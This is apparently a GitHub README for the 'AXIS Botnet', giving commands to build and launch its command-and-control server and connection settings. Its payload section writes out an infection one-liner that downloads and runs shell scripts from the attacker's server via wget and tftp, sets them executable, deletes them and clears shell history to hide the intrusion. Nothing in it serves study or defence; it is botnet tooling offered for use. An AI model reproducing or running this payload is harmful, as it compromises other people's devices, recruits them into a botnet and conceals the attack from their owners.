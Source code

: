 # AXIS Botnet

### Installation:
* Linux only:
  * **recommended to use Centos 7**
  * `sudo python3 build.py AXIS_CC.c (server-ip)`
  * `gcc AXIS_CNC.c -o AXIS -pthread`
  * `sudo screen ./AXIS 606 1 909`
  
### Connect
* SSH Config:
  * PORT: 909
  * TYPE: RAW
  
### Payload
* Payload: cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://(server-ip)/AXIS.sh; chmod 777 *; sh AXIS.sh; tftp -g (server-ip) -r tftp1.sh; chmod 777 *; sh tftp1.sh; rm -rf *.sh; history -c"

### window
<p align="center">
  <img src="https://cdn.discordapp.com/attachments/808620387390324746/992772504521297990/275038087_1604950353178908_3257252682320961726_n.jpg">
</p>
